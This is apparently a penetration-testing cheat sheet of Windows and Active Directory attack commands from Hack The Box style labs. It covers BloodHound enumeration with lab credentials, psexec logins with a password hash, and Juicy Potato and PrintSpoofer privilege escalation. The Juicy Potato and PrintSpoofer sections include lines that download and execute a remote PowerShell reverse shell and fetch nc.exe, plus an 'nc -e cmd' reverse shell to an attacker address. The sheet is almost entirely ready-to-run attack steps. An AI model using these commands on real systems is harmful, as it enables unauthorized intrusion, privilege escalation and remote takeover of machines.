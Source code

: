 ### SharpHound.ps1
```bash
powershell -ep bypass
. .\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\TEMP\
```

### bloodhound-python
```bash
bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -c all -ns 10.10.10.161

```

### psexec
```bash
psexec.py active.htb/administrator@10.129.193.5
psexec.py -hashes '2f2b8d5d4d756a2c72c554580f970c14:2f2b8d5d4d756a2c72c554580f970c14' Administrator@192.168.190.247

When psexec not working
- crackmapexec smb -x whoami
- xfreerdp
- winrm
- See if we can upload files through shares using smbclient
```

### Juicy Potato
```bash
1. First copy the Invoke-PowerShellTcp.ps1 script once again into your current directory.
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell-2.ps1

2. Add the following line to the end of the script with the attack configuration settings.
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666

3. Next, create a shell.bat file that downloads the above shell-2.ps1 PowerShell script and runs it.
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell-2.ps1')

4. Then download the shell.bat file on the target machine.
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/shell.bat', 'C:\Users\kohsuke\Desktop\shell.bat')

5. Setup a listener on the attack machine to receive the reverse shell.
nc -nlvp 6666

6. Then run the Juicy Potato executable.
./jp.exe -t * -p shell.bat -l 4444

```

### PrintSpoofer
```bash
iwr -uri http://192.168.45.176/PrintSpoofer64.exe -Outfile PrintSpoofer.exe
iwr -uri http://192.168.45.176/nc.exe -Outfile nc.exe
.\PrintSpoofer.exe -c "C:\temp\nc.exe 192.168.45.202 443 -e cmd"
```
